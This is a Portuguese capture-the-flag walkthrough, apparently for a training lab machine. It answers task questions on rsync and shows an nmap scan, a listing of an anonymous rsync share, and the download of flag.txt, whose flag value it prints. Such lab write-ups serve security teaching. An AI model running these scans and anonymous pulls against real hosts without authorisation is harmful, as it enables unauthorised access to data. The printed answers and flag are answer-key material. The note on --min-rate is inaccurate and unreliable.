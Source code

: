 
## Tarefa 1

Qual é a porta **padrão** do **rsync**?

Resposta: 873

---

## Tarefa 2

Quantas portas **TCP** estão abertas no host remoto?

```shell
sudo nmap -p- --min-rate=1000 10.129.140.218 -sV

PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

```

-p- = Escanear todas as portas (pode demorar)
--min-rate=1000 = limita a varredura do scan para 1000 ms

Resposta: 1

---

## Tarefa 3

Qual é a **versão do protocolo** usada pelo rsync na máquina remota?

Resposta: 31

---

## Tarefa 4

Qual é o nome de comando **mais comum** no Linux para interagir com o **rsync**?

Resposta: rsync

---

## Tarefa 5

Quais credenciais você precisa passar ao rsync para usar **autenticação anônima**?  
(opções: `anonymous:anonymous`, `anonymous`, `None`, `rsync:rsync`)

Resposta: none

---

## Tarefa 6

Qual é a **opção** para **listar apenas** os shares e arquivos no rsync?  
_(Não é necessário incluir os dois traços iniciais `--`.)_

```shell
rsync -h

[...]
--list-only              list the files instead of copying them

```

---

## Enviar Flag

Envie a flag de root.

```shell
$ rsync --list-only 10.129.140.218::     
public          Anonymous Share

```

O comando acima lista todos os arquivos do rsync. no manual diz que usos com apenas um argumento **SRC** e sem argumento **DEST** irão **listar os arquivos de origem** em vez de copiá-los.

Agora é necessario listar o diretorio "public"

``` shell
$ rsync --list-only 10.129.140.218::public   
drwxr-xr-x          4,096 2022/10/24 18:02:23 .
-rw-r--r--             33 2022/10/24 17:32:03 flag.txt

```

Encontramos o arquivo com a flag mas é necessário extrai-lo para a maquina local. Para isso digitar o seguinte comando

``` shell
rsync 10.129.140.218::public/flag.txt flag.txt
```

Esse comando copia os arquivos do SRC "10.129.140.218::public/flag.txt" e cria um arquivo na maquina local chamado flag.txt

Ao ler o arquiivo encontramos a flag

```shell
$ cat flag.txt 
72eaf5344ebb84908ae543a719830519
```